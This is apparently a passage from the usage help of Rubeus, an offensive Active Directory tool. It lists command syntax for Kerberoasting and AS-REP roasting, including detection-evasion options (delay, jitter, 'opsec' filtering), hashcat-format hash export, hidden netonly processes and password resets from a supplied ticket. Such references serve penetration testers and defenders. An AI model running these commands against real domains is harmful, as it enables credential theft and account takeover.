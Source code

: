         Perform Kerberoasting with an existing TGT:
            Rubeus.exe kerberoast </spn:"blah/blah" | /spns:C:\temp\spns.txt> </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

        Perform Kerberoasting with an existing TGT using an enterprise principal:
            Rubeus.exe kerberoast </spn:user@domain.com | /spns:user1@domain.com,user2@domain.com> /enterprise </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

        Perform Kerberoasting with an existing TGT and automatically retry with the enterprise principal if any fail:
            Rubeus.exe kerberoast </ticket:BASE64 | /ticket:FILE.KIRBI> /autoenterprise [/ldaps] [/nowrap]

        Perform Kerberoasting using the tgtdeleg ticket to request service tickets - requests RC4 for AES accounts:
            Rubeus.exe kerberoast /usetgtdeleg [/ldaps] [/nowrap]

        Perform "opsec" Kerberoasting, using tgtdeleg, and filtering out AES-enabled accounts:
            Rubeus.exe kerberoast /rc4opsec [/ldaps] [/nowrap]

        List statistics about found Kerberoastable accounts without actually sending ticket requests:
            Rubeus.exe kerberoast /stats [/ldaps] [/nowrap]

        Perform Kerberoasting, requesting tickets only for accounts with an admin count of 1 (custom LDAP filter):
            Rubeus.exe kerberoast /ldapfilter:'admincount=1' [/ldaps] [/nowrap]

        Perform Kerberoasting, requesting tickets only for accounts whose password was last set between 01-31-2005 and 03-29-2010, returning up to 5 service tickets:
            Rubeus.exe kerberoast /pwdsetafter:01-31-2005 /pwdsetbefore:03-29-2010 /resultlimit:5 [/ldaps] [/nowrap]

        Perform Kerberoasting, with a delay of 5000 milliseconds and a jitter of 30%:
            Rubeus.exe kerberoast /delay:5000 /jitter:30 [/ldaps] [/nowrap]

        Perform AES Kerberoasting:
            Rubeus.exe kerberoast /aes [/ldaps] [/nowrap]

        Perform AS-REP "roasting" for any users without preauth:
            Rubeus.exe asreproast [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

        Perform AS-REP "roasting" for any users without preauth, outputting Hashcat format to a file:
            Rubeus.exe asreproast /outfile:hashes.txt /format:hashcat [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps]

        Perform AS-REP "roasting" for any users without preauth using alternate credentials:
            Rubeus.exe asreproast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU,..."] [/ldaps] [/nowrap]


     Miscellaneous:

        Create a hidden program (unless /show is passed) with random /netonly credentials, displaying the PID and LUID:
            Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" [/show]

        Reset a user's password from a supplied TGT (AoratoPw):
            Rubeus.exe changepw </ticket:BASE64 | /ticket:FILE.KIRBI> /new:PASSWORD [/dc:DOMAIN_CONTROLLER] [/targetuser:DOMAIN\USERNAME]
